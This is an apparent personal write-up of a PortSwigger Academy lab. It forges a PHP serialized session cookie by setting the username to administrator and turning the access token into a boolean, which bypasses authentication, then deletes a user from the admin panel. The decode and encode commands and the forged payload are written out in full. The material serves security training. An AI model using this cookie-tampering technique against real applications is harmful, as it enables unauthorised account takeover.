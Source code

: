 #+title:  Modifying serialized data types
#+description: another portswigger academy lab

* Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types

- Credentials
  wiener:peter

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result.

To solve this lab edit the serializsed object in the sessions cookie to access the admin account

With admin account delete the ~carlos~ user

* # Issue

As the same case of the last lab, the cookie are base64 encoded, and the cookie are an serialized object, which is a big problem in security terms.

CTRL + SHITF + i to open ~dev tools~ ->

        Application > Storage > Cookie

- Get the cookie and decode ->
#+begin_src sh
echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJienc4azlhM2N0dmpqYWluNG91ZXg5ZGoydHM4djloYiI7fQ==' | base64 -d
  #+end_src

and another object deserialized ->

#+begin_src sh
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bzw8k9a3ctvjjain4ouex9dj2ts8v9hb";}
#+end_src

The type of the contents are s (String), what happens with we modify the data type from S to B (Bool) ?

At this case we modfy the "username" value to admin and the "access_token" value type to bool ->

#+begin_src sh
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
#+end_src

Now encode again with base64 and set to the new cookie value at web page ->

#+begin_src sh
echo 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}' | base64 -w 0
#+end_src

~base64 -w 0~  = Use 0 to disable line wrapping

Copy the result and put at new cookie value at web page with ~dev tools~

#+begin_src
CTRL + SHIFT + i

Application > Storage > Cookie
#+END_SRC

 Reload the page with the new cookie defined, and now we are logged in as administrator user, we can confirm that with My account tab, where your current username is displayed

 - At Admin Panel delet the carlos account
